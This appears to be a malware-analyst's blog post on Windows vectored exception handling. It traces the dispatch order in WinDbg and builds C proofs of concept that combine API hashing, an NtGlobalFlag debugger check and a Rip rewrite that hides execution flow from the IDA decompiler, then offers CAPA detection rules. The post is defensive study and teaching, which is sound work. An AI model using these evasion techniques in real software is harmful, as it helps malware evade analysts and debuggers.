2. Encodes the function pointer using =RtlEncodePointer= before storing it in =EncodedHandler=
3. Acquires an exclusive lock on the =SRWLOCK= in =LdrpVectorHandlerList=
4. Inserts the node either at the front or at the back of the list depending on the first parameter you passed
5. Releases the lock
6. Returns the address of the node as the handle you use later to remove it

The first parameter is documented as [[https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-addvectoredexceptionhandler][ULONG First]].
A non-zero value puts the handler at the head of the list, meaning it will be called before any previously registered handler. Zero puts it at the tail.

When an exception occurs, after the kernel-side handling and the transition back to user mode,
ntdll calls =RtlDispatchException=. Before touching SEH, it acquires a shared lock on =LdrpVectorHandlerList= and walks the =VEH= list from head to tail.
For each node it decodes the handler pointer and calls it with the =EXCEPTION_POINTERS= structure.
If a handler returns =EXCEPTION_CONTINUE_EXECUTION=, the walk stops and execution resumes. If it returns =EXCEPTION_CONTINUE_SEARCH=, the walk continues to the next node.
If the entire =VEH= list is exhausted without anyone claiming the exception, the =SEH= chain is walked. If =SEH= also passes, the =VCH= list is walked.
(VCH: Vectored Continue Handlers, where handler are register via =AddVectoredContinueHandler=).

The ordering guarantee is therefore strict: VEH first, in registration order, then SEH, then VCH.

*** Practice: Observing it at runtime
This is a short of note section on how to inspect the exception regarding VEH and its underlaying structure in **WinDbg**.
For this short exercice, I used the following C code is used:

#+begin_src c
#include <windows.h>
#include <stdio.h>

LONG CALLBACK FirstHandler(PEXCEPTION_POINTERS ExceptionInfo)
{
    if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION)
    {
        printf("FirstHandler: passing to next handler\n");
        return EXCEPTION_CONTINUE_SEARCH;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}

LONG CALLBACK SecondHandler(PEXCEPTION_POINTERS ExceptionInfo)
{
    if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION)
    {
        printf("SecondHandler: claiming the exception\n");

        ExceptionInfo->ContextRecord->Eip += 6;
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}

int main(void)
{
    PVOID h1 = AddVectoredExceptionHandler(1, FirstHandler);
    PVOID h2 = AddVectoredExceptionHandler(1, SecondHandler);

    int *ptr = NULL;
    *ptr = 42;

    RemoveVectoredExceptionHandler(h1);
    RemoveVectoredExceptionHandler(h2);

    printf("execution continued after the fault\n");
    return 0;
}
#+end_src

/NB: I skip the part where I setup the symbols in windbg./

To watch how: the double linked list work, the following breakpoints are set:
#+begin_src
bp ntdll!RtlpCallVectoredHandlers
bp double_veh!FirstHandler
bp double_veh!SecondHandler
#+end_src

Why breaking at =RtlpCallVectoredHandlers=? Reading from the bottom up, this is the full execution path that led to the VEH list walk:

#+caption: capture of the stack after reaching the RtlpCallVectoredHandler in ntdll (just after =ACCESS_VIOLATION= occured)


- =_RtlUserThreadStart= and =BaseThreadInitThunk= are the standard thread startup boilerplate
- =__scrt_common_main_seh= is the MSVC CRT startup wrapper that calls main
- =main+0x30= is my code, specifically line 32 in /double-veh.c/ which is the null pointer write =*ptr = 42=
- =KiUserExceptionDispatcher= is the first user mode function that ran after the kernel caught the fault, the entry point back from kernel mode
- =RtlDispatchException+0x67= is where the OS starts looking for a handler
- =RtlpCallVectoredHandlers= is where the execution is currently -> the function about to walk the process VEH list

The key thing to point out for the article is frames 02, 01 and 00.
That three step sequence from =KiUserExceptionDispatcher= to =RtlDispatchException= to =RtlpCallVectoredHandlers= is the exact dispatch chain.

Let it run with =g= until it hits another breakpoint which should be =SecondHandler=, since it is registered second with parameter **1**
so the first in the VEH list.

#+caption: windbg capture of the stack after hitting =SecondHandler= function during the exception management


Now looking at =dd esp=, the second value =010fec90= is the =EXCEPTION_POINTERS= pointer being passed as the argument to the handler (=SecondHandler=).
Which can follow with: =dt EXCEPTION_POINTERS 010fec90=.

And we obtains:
#+begin_src
double_veh!_EXCEPTION_POINTERS
   +0x000 ExceptionRecord  : 0x010fed74 _EXCEPTION_RECORD
   +0x004 ContextRecord    : 0x010fedc4 _CONTEXT
#+end_src

and with =dt _EXCEPTION_RECORD 0x010fed74= to inspect the exception record

#+caption: Exception record inspection


This is what expected to observed the /code/ is =0n-1073741819= which is equivalent to =0xC0000005= (=STATUS_ACCESS_VIOLATION=)

To convert this value from windbg to a hexadecimal representation I used the following Python snippet:
#+begin_src python :results output :exports output
value = -1073741819
print(hex(value & 0xFFFFFFFF))
#+end_src

#+RESULTS:
: 0xc0000005

** Using Exceptions as a Control Flow Primitive
In this section, I decided to put my modest C skills to the test to see if I could trip up the decompiler.

Three source codes are provided as Proof of Concept see them as ladder to tackle the above challenge.
1. Simple PoC which API hashing.
2. Introduce inline ASM to produce faulty instruction.
3. Improve code to trick decompiler to resolv faulty instructions construction.

*** VEH combined with API hashing
The PoC starts by resolving =AddVectoredExceptionHandler= through API hashing rather
than a normal import: the function name is reduced to a single 32-bit ROR13 constant (=0x159B3EA0=),
and a small resolver walks kernel32's export directory at runtime, transparently following the forwarder into /kernelbase.dll/.
No string, no IAT entry, no static cross-reference. Once the address is in hand, the handler is registered with CALL_FIRST priority
so it sees exceptions before anything else in the process, and the program deliberately raises an =int3= to invoke it.
Inside the handler, instead of calling =IsDebuggerPresent=, the code reads =NtGlobalFlag= directly from the =PEB= at offset =0xBC= (x64) or =0x68= (x86)
and tests for the =0x70= heap-debug bit pattern that Windows OR's in whenever a process is launched under a debugger.
I recently came accross this technique which is documented by CheckPoint in there [[https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-ntglobalflag][Anti-Debug: Debug Flags]] documentation.

In the normal case the bits are clear, the handler advances =RIP= past the =int3=,
returns =EXCEPTION_CONTINUE_EXECUTION=, and the program prints its "survived" message and exits cleanly.
Under a debugger the same read returns =0x70=, the process terminates with exit code =0xDEAD=.

#+caption: PoC to implement an Exception that hijack the standard execution flow when it is in a debugger
#+begin_src c
#include <windows.h>
#include <stdio.h>

#define FLG_HEAP_ENABLE_TAIL_CHECK    0x10
#define FLG_HEAP_ENABLE_FREE_CHECK    0x20
#define FLG_HEAP_VALIDATE_PARAMETERS  0x40
#define NT_GLOBAL_FLAG_DBG_MASK \
    (FLG_HEAP_ENABLE_TAIL_CHECK | FLG_HEAP_ENABLE_FREE_CHECK | FLG_HEAP_VALIDATE_PARAMETERS)

typedef PVOID (WINAPI *pfnAddVectoredExceptionHandler)(
    ULONG First,
    PVECTORED_EXCEPTION_HANDLER Handler);

static ULONG GetNtGlobalFlag(void)
{
#ifdef _WIN64
    PBYTE peb = (PBYTE)__readgsqword(0x60);
    return *(volatile ULONG *)(peb + 0xBC);
#else
    PBYTE peb = (PBYTE)__readfsdword(0x30);
    return *(volatile ULONG *)(peb + 0x68);
#endif
}

static LONG WINAPI MyVectoredHandler(PEXCEPTION_POINTERS ep)
{
    if (ep->ExceptionRecord->ExceptionCode != EXCEPTION_BREAKPOINT)
        return EXCEPTION_CONTINUE_SEARCH;

    ULONG flag = GetNtGlobalFlag();
    printf("[VEH] hit. NtGlobalFlag = 0x%lx\n", flag);

    if ((flag & NT_GLOBAL_FLAG_DBG_MASK) == NT_GLOBAL_FLAG_DBG_MASK) {
        printf("[VEH] debugger detected via NtGlobalFlag -> bailing.\n");
        ExitProcess(0xDEAD);
    }

    printf("[VEH] clean. Skipping the int3 and resuming.\n");

#ifdef _WIN64
    ep->ContextRecord->Rip += 1;
#else
    ep->ContextRecord->Eip += 1;
#endif
    return EXCEPTION_CONTINUE_EXECUTION;
}

#define HASH_ADDVECTOREDEXCEPTIONHANDLER  0x159B3EA0UL

static DWORD Ror13Hash(const char *s)
{
    DWORD h = 0;
    while (*s) {
        h = (h >> 13) | (h << 19);
        h += (BYTE)*s++;
    }
    return h;
}

static FARPROC ResolveByHash(HMODULE hMod, DWORD target)
{
    PBYTE base = (PBYTE)hMod;
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)base;
    if (dos->e_magic != IMAGE_DOS_SIGNATURE) return NULL;

    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(base + dos->e_lfanew);
    if (nt->Signature != IMAGE_NT_SIGNATURE) return NULL;

    IMAGE_DATA_DIRECTORY dir =
        nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
    if (!dir.VirtualAddress || !dir.Size) return NULL;

    PIMAGE_EXPORT_DIRECTORY exp =
        (PIMAGE_EXPORT_DIRECTORY)(base + dir.VirtualAddress);
    PDWORD names    = (PDWORD)(base + exp->AddressOfNames);
    PWORD  ordinals = (PWORD) (base + exp->AddressOfNameOrdinals);
    PDWORD funcs    = (PDWORD)(base + exp->AddressOfFunctions);

    for (DWORD i = 0; i < exp->NumberOfNames; i++) {
        const char *name = (const char *)(base + names[i]);
        if (Ror13Hash(name) != target) continue;

        DWORD funcRva = funcs[ordinals[i]];

        if (funcRva >= dir.VirtualAddress &&
            funcRva <  dir.VirtualAddress + dir.Size)
        {
            const char *fwd = (const char *)(base + funcRva);
            const char *dot = fwd;
            while (*dot && *dot != '.') dot++;
            if (*dot != '.') return NULL;

            char dllName[64];
            size_t n = (size_t)(dot - fwd);
            if (n + 5 > sizeof(dllName)) return NULL;
            for (size_t k = 0; k < n; k++) dllName[k] = fwd[k];
            dllName[n+0] = '.'; dllName[n+1] = 'd';
            dllName[n+2] = 'l'; dllName[n+3] = 'l';
            dllName[n+4] = 0;

            HMODULE hNext = GetModuleHandleA(dllName);
            if (!hNext) hNext = LoadLibraryA(dllName);
            if (!hNext) return NULL;

            return ResolveByHash(hNext, Ror13Hash(dot + 1));
        }

        return (FARPROC)(base + funcRva);
    }
    return NULL;
}

int main(void)
{
    HMODULE hK32;
    pfnAddVectoredExceptionHandler pAddVEH;
    PVOID hVEH;

    hK32 = GetModuleHandleA("kernel32.dll");
    if (!hK32) {
        fprintf(stderr, "[-] GetModuleHandleA failed (%lu)\n", GetLastError());
        return 1;
    }

    pAddVEH = (pfnAddVectoredExceptionHandler)
        ResolveByHash(hK32, HASH_ADDVECTOREDEXCEPTIONHANDLER);
    if (!pAddVEH) {
        fprintf(stderr, "[-] hash resolution failed\n");
        return 1;
    }
    printf("[+] AddVectoredExceptionHandler resolved at %p\n", (void*)pAddVEH);

    hVEH = pAddVEH(1, MyVectoredHandler);
    if (!hVEH) {
        fprintf(stderr, "[-] AddVectoredExceptionHandler returned NULL\n");
        return 1;
    }
    printf("[+] VEH installed at handle %p. Triggering int3...\n", hVEH);

    __debugbreak();

    printf("[+] Survived. NtGlobalFlag check did not trip.\n");
    return 0;
}
#+end_src

#+caption: Output of two execution, one in nominal execution and another in the debug that trigger the ExitProcess(0xDEAD)


This is a very simple scenario of how malware could abuse this feature to "hijack" the execution flow, here the Exception is made with an explicite =int3=.
But nothing is really hidden when decompiling the binary, even with dynamic api resolution, so analyst just after resolving the hash will pretty fastly
catch what to analyse. So, from an attacker point of view, how could this simple scenario can be improved?

*** VEH / A failed way to "Arithmetic as a smokescreen"
First idea is to change the code that raise the exception, so instead of a =int3= why not triggering an =ACCESS_VIOLATION= based on simple arithmetic calculation.

Here for instance, we can add an inline ASM block that will trigger an =ACCESS_VIOLATION= by compute via boolean arithmetic a zero that will be used as an address:
#+begin_src ASM
mov rbx, 0xdeadbeef
mov rcx, 0xd2acc002
add rcx, 0xc00feed
xor rbx, rcx
mov [rbx], rcx
#+end_src

This result in the register =rbx= being set to 0, that could read in C as =int *ptr = NULL; *ptr = 0xdeadbeef;=

#+caption: Source: [veh_arithmetic_access_violationation.c]
#+begin_src c
#include <windows.h>
#include <stdio.h>
 
#define FLG_HEAP_ENABLE_TAIL_CHECK    0x10
#define FLG_HEAP_ENABLE_FREE_CHECK    0x20
#define FLG_HEAP_VALIDATE_PARAMETERS  0x40
#define NT_GLOBAL_FLAG_DBG_MASK (FLG_HEAP_ENABLE_TAIL_CHECK | FLG_HEAP_ENABLE_FREE_CHECK | FLG_HEAP_VALIDATE_PARAMETERS)
 

static ULONG GetNtGlobalFlag(void)
{
#ifdef _WIN64
    PBYTE peb = (PBYTE)__readgsqword(0x60);
    return *(volatile ULONG *)(peb + 0xBC); // NtGlobalFlag in x64
#else
    PBYTE peb = (PBYTE)__readfsdword(0x30);
    return *(volatile ULONG *)(peb + 0x68); // NtGlobalFlag in x86
#endif
}
 
/* ---------- The vectored handler --------------------------------------- */
static LONG WINAPI MyVectoredHandler(PEXCEPTION_POINTERS ep)
{
    if (ep->ExceptionRecord->ExceptionCode != EXCEPTION_ACCESS_VIOLATION)
        return EXCEPTION_CONTINUE_SEARCH;
    if (ep->ExceptionRecord->ExceptionInformation[1] != 0)
        return EXCEPTION_CONTINUE_SEARCH;
 
    ULONG flag = GetNtGlobalFlag();
    printf("[VEH] hit. NtGlobalFlag = 0x%lx\n", flag);
 
    if ((flag & NT_GLOBAL_FLAG_DBG_MASK) == NT_GLOBAL_FLAG_DBG_MASK) {
        printf("[VEH] debugger detected via NtGlobalFlag.\n");
        ExitProcess(0xDEAD);
    }
 
    printf("[VEH] clean. Skipping the faulting store and resuming.\n");

#ifdef _WIN64
    ep->ContextRecord->Rip += 3;
#else
    ep->ContextRecord->Eip += 2;
#endif
    return EXCEPTION_CONTINUE_EXECUTION;
}
 
int main(void)
{
    PVOID hVEH = AddVectoredExceptionHandler(1, MyVectoredHandler);
    if (!hVEH) {
        fprintf(stderr, "[-] AddVectoredExceptionHandler returned NULL\n");
        return 1;
    }
    printf("[+] VEH installed at handle %p. Triggering AV via arithmetic NULL...\n", hVEH);
 
    /* Compute a NULL pointer at runtime via boolean arithmetic, 
     rcx  = 0xd2acc002 + 0x0c00feed = 0xdeadbeef
     rbx ^= rcx   -> 0xdeadbeef ^ 0xdeadbeef = 0
     [rbx] = rcx  -> write to address 0 -> EXCEPTION_ACCESS_VIOLATION */
    __asm__ volatile (
        ".intel_syntax noprefix\n\t"
        "mov rbx, 0xdeadbeef\n\t"
        "mov rcx, 0xd2acc002\n\t"
        "add rcx, 0x0c00feed\n\t"
        "xor rbx, rcx\n\t"
        "mov [rbx], rcx\n\t"
        ".att_syntax prefix\n\t"
        ::: "rbx", "rcx", "memory"
    );
 
    printf("[+] Survived. NtGlobalFlag check did not trip.\n");
    return 0;
}
#+end_src

/x86_64-w64-mingw32-gcc -Wall -O0 veh_arithmetic_access_violationation.c -o veh.exe/

From the disasembly view it is what I was expected, however Hex-Rays is doing constant propagation across the basic block.
It sees five instructions with pure-immediate inputs and no external state, so it folds the whole computation at decompile time.

#+caption: Disassembly view and decompiled view in IDA


This implementation is too transparent: Hex-Rays was able to fold the five constant-driven instructions into a single =MEMORY[0] = 0xdeadbeef=.

*** VEH / Sealing the fault

This section builds on the previous proof of concept and pushes the obfuscation one step further,
targeting the decompiler specifically: constants are hidden behind an opaque wrapper,
and the handler stops stepping over the fault and starts redirecting execution to an entirely separate function.

Basically what I want to test is the following workflow:
#+begin_src c
hVEH = AddVectoredExceptionHandler(1, MyVectoredHandler);
t = (uint64_t)hVEH;
g_mask = (t ^ Opaque(t)) + Opaque(0xd2acc002) + 0x0c00feed;
mask_val = g_mask;
__asm { mov rcx, 0xd2acc002; add rcx, 0xc00feed; xor rbx, rcx; mov [rbx], rcx }
printf("(decoy) Survived..."); // I don't want to see this in the decompiled view 
#+end_src

The idea here was to try to make the decompiler less helpful to the analyst,
both at the operand level and at the control-flow level.
I'm not sure these are the best techniques, but two small changes were layered onto the previous PoC
to see if Hex-Rays could still be coaxed away from showing a tidy =MEMORY[0] = 0xdeadbeef=.

First, the constants feeding the inline asm go through [[(opaque-fnc)][=Opaque()=]] function, a noinline identity function wrapping a volatile read.
The two attributes seem to pull in different directions, and I think that's why it works.
noinline forces the compiler to emit a real call at every call site instead of pasting the body inline.
volatile tells it the value inside the function could change between the store and the load
(in practice it can't, but as far as I understand the standard says the compiler has to assume it might),
so it can't reason about what comes out.
Together you get something close to a sealed black box: the compiler has to make the call,
and once execution is inside it can't really prove anything about the return value.

In my tests =0xdeadbeef= no longer shows up as a literal anywhere in the binary,
it only exists in =rbx= at runtime after the [[(opaque-fnc)][=Opaque()=]] compute part of the operation with other static variable.

Second, the handler stops being polite. Instead of just stepping over the faulting instruction,
it rewrites [[(rewrite-rip)][=CONTEXT.Rip=]] to point at a separate function, named here [[(realnextstage-fnc)][=RealNextStage=]], which is where the real "work" happens.
From what I've seen, IDA seems to treat an access violation as a dead end, so the decompilation of =main= just stops at the fault.
The [[(lastprintf)][=printf=]] sitting right after it looks like reachable code but never actually runs,
and the code that does run lives in a function with no static reference from =main= at all.

An analyst still has to read the handler, spot the =Rip= write, and follow it by hand.
That probably isn't a huge obstacle for someone experienced, but it does mean =main='s decompilation on its own won't point the way.

#+caption: Source [veh_hid_arithmetic_result.c]
#+begin_src c :hl_lines 11-15,35,63,66,81,103, c -n -r
#include <windows.h>
#include <stdio.h>
#include <stdint.h>

#define FLG_HEAP_ENABLE_TAIL_CHECK    0x10
#define FLG_HEAP_ENABLE_FREE_CHECK    0x20
#define FLG_HEAP_VALIDATE_PARAMETERS  0x40
#define NT_GLOBAL_FLAG_DBG_MASK (FLG_HEAP_ENABLE_TAIL_CHECK | FLG_HEAP_ENABLE_FREE_CHECK | FLG_HEAP_VALIDATE_PARAMETERS)

static __attribute__((noinline)) uint64_t Opaque(uint64_t x) (ref:opaque-fnc)
{
    volatile uint64_t v = x;
    return v;
}

/* (volatile, in .bss) */
static volatile uint64_t g_mask;

// Same as previous PoC
static ULONG GetNtGlobalFlag(void)
{
#ifdef _WIN64
    PBYTE peb = (PBYTE)__readgsqword(0x60);
    return *(volatile ULONG *)(peb + 0xBC);
#else
    PBYTE peb = (PBYTE)__readfsdword(0x30);
    return *(volatile ULONG *)(peb + 0x68);
#endif
}

/* Reached only by the VEH rewriting CONTEXT.Rip. It has no static caller,
so IDA shows zero xrefs to it from main. End with ExitProcess because 
there is no return address to ret */
static void __attribute__((used, noinline)) RealNextStage(void) (ref:realnextstage-fnc)
{
    printf("[+] RealNextStage reached. Decompiler thinks main() crashed here.\n");
    printf("[+] This is the path real loaders use to hide their flow.\n");
    ExitProcess(0);
}

static LONG WINAPI MyVectoredHandler(PEXCEPTION_POINTERS ep)
{
    if (ep->ExceptionRecord->ExceptionCode != EXCEPTION_ACCESS_VIOLATION)
        return EXCEPTION_CONTINUE_SEARCH;
    if (ep->ExceptionRecord->ExceptionInformation[1] != 0)
        return EXCEPTION_CONTINUE_SEARCH;

    ULONG flag = GetNtGlobalFlag();
    printf("[VEH] hit. NtGlobalFlag = 0x%lx\n", flag);

    if ((flag & NT_GLOBAL_FLAG_DBG_MASK) == NT_GLOBAL_FLAG_DBG_MASK) {
        printf("[VEH] debugger detected via NtGlobalFlag.\n");
        ExitProcess(0xDEAD);
    }

    printf("[VEH] clean. Rewriting Rip to RealNextStage (not visible in IDA).\n");

    /* x64 ABI: at function entry rsp must satisfy rsp % 16 == 8 (because a *
     * CALL would have pushed an 8-byte return address) tkt claude*/
#ifdef _WIN64
    ep->ContextRecord->Rsp = (ep->ContextRecord->Rsp & ~0xFULL) - 8;
    ep->ContextRecord->Rip = (DWORD64)&RealNextStage; (ref:rewrite-rip)
#else
    ep->ContextRecord->Esp = (ep->ContextRecord->Esp & ~0xFUL) - 4;
    ep->ContextRecord->Eip = (DWORD)&RealNextStage;
#endif
    return EXCEPTION_CONTINUE_EXECUTION;
}

int main(void)
{
    PVOID hVEH = AddVectoredExceptionHandler(1, MyVectoredHandler);
    if (!hVEH) {
        fprintf(stderr, "[-] AddVectoredExceptionHandler returned NULL\n");
        return 1;
    }
    printf("[+] VEH installed at %p. Building opaque mask...\n", hVEH);

    uint64_t t = (uint64_t)hVEH;
    g_mask = (t ^ Opaque(t)) + Opaque(0xd2acc002ULL) + 0x0c00feedULL; // g_mask after calcul is the 0xdeadbeef

    /* Force the volatile read into rbx via the "b" input constraint.
     decompiler should see rbx loaded from a global it cannot fold. */
    uint64_t mask_val = g_mask;

    printf("[+] Compute the opaque arithmetic NULL...\n");

    __asm__ volatile (
        ".intel_syntax noprefix\n\t"
        "mov rcx, 0xd2acc002\n\t"
        "add rcx, 0x0c00feed\n\t"
        "xor rbx, rcx\n\t"
        "mov [rbx], rcx\n\t"
        ".att_syntax prefix\n\t"
        :
        : "b"(mask_val)
        : "rcx", "memory"
    );

    /* Should not be reached at runtime if executed in a debugger because Rip 
     point to RealNextStage  */
    printf("[+] (decoy) Survived. NtGlobalFlag check did not trip.\n"); (ref:lastprintf)
    return 0;
}
#+end_src

/x86_64-w64-mingw32-gcc -Wall -O0 veh_hid_arithmetic_result.c -o veh.exe/

The above code successfuly show what I expected where the "real" execution flow is hidden by the Vector Handler.

#+caption: Decompiled view of the main function that implement the execution flow hidden


#+caption: Decompiled view of the custom vector handler that change program execution flow if a debugger is detected via NtGlobalFlag


** Detecting It as a Malware Analyst
As a first ideas or the two starting points would be YARA and CAPA rules to search for following patterns:
- YARA: signatures on =RtlAddVectoredExceptionHandler=, =AddVectoredExecptionHandler= and =AddVectoredContinueHandler=, mixed with known patterns such as =IsDebuggerPresent=, =NtQueryInformationProcess=, /etc.../
- CAPA: relevant rules around exception handler registration and dynamic control flow, what to write if the rule does not exist yet.

This is a lightweight attempt at a CAPA rule. It may produce false positives,
but it has been helpful as a starting point when exploring large binaries. Note that the rule
is at function scope so, if the handler is registered at the beginning of the program and
the fault instructions in different functions, the rules won't trigger.

/NB: The rule only cover 3 types of exceptions: undefined instruction, int3, divide by zero;/

#+caption: CAPA rules on VEH registration combined with simple instructions that raise EXCEPTION
#+begin_src yaml
rule:
  meta:
    name: register vectored exception handler to redirect control flow
    namespace: anti-analysis/anti-debugging/debugger-evasion
    authors:
      - @plebourhis
    scopes:
      static: function
      dynamic: call
    att&ck:
      - Defense Evasion::Debugger Evasion [T1622]
    mbc:
      - Anti-Behavioral Analysis::Debugger Detection [B0001]
      - Anti-Static Analysis::Disassembler Evasion [B0012]
    references:
      - https://anti-debug.checkpoint.com/techniques/exceptions.html
      - https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-addvectoredexceptionhandler
    description: |
      Malware registers a Vectored Exception Handler and then deliberately
      raises an exception (int3, ud2, divide-by-zero, RaiseException, ...).
  features:
    - and:
      - or:
          - api: AddVectoredExceptionHandler
          - api: kernel32.AddVectoredExceptionHandler
          - api: ntdll.RtlAddVectoredExceptionHandler
      - or:
          - mnemonic: int3
          - mnemonic: ud2
          - api: RaiseException
          - api: kernel32.RaiseException
          - and:
              - mnemonic: div
              - number: 0 = divide-by-zero to trigger EXCEPTION_INT_DIVIDE_BY_ZERO
          - and:
              - mnemonic: int
              - number: 0x2D = EXCEPTION_BREAKPOINT alt path (int 0x2D)
#+end_src

A second rule, oriented on the handler itself, looks for code that rewrites the =Eip=/=Rip= field of the =ContextRecord=.

#+caption: CAPA rule for the Context Rip/Eip redirection
#+begin_src yaml
rule:
  meta:
    name: vectored exception handler rewrites instruction pointer
    namespace: anti-analysis/anti-debugging/debugger-evasion
    authors:
      - @plebourhis
    scopes:
      static: function
      dynamic: call
    att&ck:
      - Defense Evasion::Debugger Evasion [T1622]
    mbc:
      - Anti-Behavioral Analysis::Debugger Detection [B0001]
    description: |
      A VEH/SEH callback writes to the Eip (x86, CONTEXT+0xB8) or Rip
      (x64, CONTEXT+0xF8) field of the EXCEPTION_POINTERS->ContextRecord
      it was handed, redirecting execution after a planted exception.
  features:
    - and:
      - or:
          - number: 0xB8 = offsetof(CONTEXT, Eip) on x86
          - number: 0xF8 = offsetof(CONTEXT, Rip) on x64
      - or:
          - number: 0x10001 = EXCEPTION_CONTINUE_EXECUTION
          - number: 0xFFFFFFFF = (LONG)-1 EXCEPTION_CONTINUE_EXECUTION
          - number: 0 = EXCEPTION_CONTINUE_SEARCH (handler chooses to skip)
#+end_src

None of the paths I wanted to follow seams accurate, however, a hint for my future self would be to checks for SEH function handler that could have interesting code inside.
And also when debugging a new piece of malware add breakpoint on =RtlAddVectoredExceptionHandler= to investigate the handler code.

*A Note on the Limits of Detection*

It is important to remain humble about the visibility. While signature-level detection is highly effective against
known threats and reused codebases, it has inherent ceilings:

The Reality Check: Static signatures catch what we have seen before.
Because the underlying technique of using exception handlers to redirect code flow is a generic architectural feature of Windows,
it is relatively easy for an author to tweak the implementation. A new sample can sidestep most rules simply by
changing the "fault" instruction or obfuscating the registration call.

Ultimately, these signatures are starting points for a deeper investigation, rather than a definitive "case closed" for a new piece of malware!

** Wrapping Up

Going into this I expected exception handling to be a small detour
before getting back to the malware sample. It turned out to be a
bigger topic than I thought, and I am sure parts of what I wrote above
are still imprecise, the x64 unwind machinery in particular is
something I want to revisit, because I don't yet have a clean mental
model of how =__C_specific_handler= decides what to do with the scope
table.

What I take away from this exercise:

- *SEH* and *VEH* are not exotic. They are the documented Windows exception
  model, and most of what makes them feel "tricky" in malware is just
  that the analyst is meeting them for the first time in an adversarial
  context.
- VEH is interesting to an attacker for a very specific reason: it
  fires *before* SEH, it is process-wide, and the handler has full
  read/write access to the saved register context. That combination is
  what makes it usable as a control-flow primitive (from malware author PoV). 
